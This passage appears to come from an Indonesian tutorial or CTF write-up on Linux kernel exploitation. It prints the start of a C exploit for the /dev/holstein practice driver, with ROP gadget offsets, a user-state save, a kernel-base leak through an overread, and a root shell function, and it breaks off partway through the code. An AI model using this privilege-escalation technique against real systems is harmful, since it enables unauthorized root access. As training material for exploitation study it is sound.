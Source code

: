 ini adalah kode exploit terakhir kita:
```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define ERR(msg)                                                               \
  do {                                                                         \
    perror(msg);                                                               \
    exit(EXIT_FAILURE);                                                        \
  } while (0)

unsigned long user_cs, user_ss, user_rsp, user_rflags;
unsigned long prepare_kernel_cred;  //0x6e240
unsigned long commit_creds; //0x6e390
unsigned long pop_rdi; //0x27bbdc
unsigned long pop_rcx; //0x32cdd3
unsigned long mov_rdi_rax_rep_movsq; //0x60c96b
unsigned long swapgs; //0x800e26
unsigned long kbase, vfs_read;
int global_fd;

static void save_state() {
  __asm__(".intel_syntax noprefix;"
          "mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_rsp, rsp;"
          "pushf;"
          "pop user_rflags;"
          ".att_syntax;");
}

static void shell() {
    char *argv[] = {"/bin/sh", NULL};
    char *envp[] = {NULL};
    puts("ROOOOT");
    execve("/bin/sh", argv, envp);
}

void leak()
{
    global_fd = open("/dev/holstein",O_RDWR);
    if(global_fd == -1){
        ERR("open(holstein)");
    }else{
        puts("/dev/holstein terbuka");
    }

    //membocorkan kernel base
    printf("[*] tahap pertama, leaked\n");
    char buff[0x500];
    memset(buff,'A',0x480);
    read(global_fd,buff,0x410);

    for(int i=0;i < 0x480; i++){
       //printf("[*]leaked = 0x%016lx\n",*(unsigned long*)(buff + i * 8) & 0xfff);
       if((*(unsigned long*)(buff + i * 8) & 0xfff) == 0x33c){
       vfs_read = *(unsigned long*)(buff + i * 8);
       break;
       }
    }

```
